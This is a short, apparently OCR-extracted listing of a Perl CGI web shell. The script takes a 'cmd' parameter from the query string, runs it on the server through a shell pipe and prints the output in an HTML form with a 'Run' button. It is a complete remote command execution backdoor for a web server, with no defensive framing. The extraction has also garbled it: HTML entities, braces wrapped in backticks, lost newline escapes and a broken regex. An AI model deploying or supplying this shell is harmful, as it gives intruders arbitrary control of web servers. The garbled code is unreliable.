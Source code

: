 ```
# Get parameters

%FORM = parse_parameters($ENV`{`'QUERY_STRING'`}`);

if(defined $FORM`{`'cmd'`}`) `{`
  $cmd = $FORM`{`'cmd'`}`;
`}`

print '&lt;HTML&gt;
&lt;body&gt;
&lt;form action="" method="GET"&gt;
&lt;input type="text" name="cmd" size=45 value="' . $cmd . '"&gt;
&lt;input type="submit" value="Run"&gt;
&lt;/form&gt;
&lt;pre&gt;';

if(defined $FORM`{`'cmd'`}`) `{`
  print "Results of '$cmd' execution:nn";
  print "-"x80;
  print "n";

  open(CMD, "($cmd) 2&gt;&amp;1 |") || print "Could not execute command";

  while(&lt;CMD&gt;) `{`
    print;
  `}`

  close(CMD);
  print "-"x80;
  print "n";
`}`

print "&lt;/pre&gt;";

sub parse_parameters ($) `{`
  my %ret;

  my $input = shift;

  foreach my $pair (split('&amp;', $input)) `{`
    my ($var, $value) = split('=', $pair, 2);

    if($var) `{`
      $value =~ s/+/ /g ;
      $value =~ s/%(..)/pack('c',hex($1))/eg;

      $ret`{`$var`}` = $value;
    `}`
  `}`

  return %ret;
`}`
```
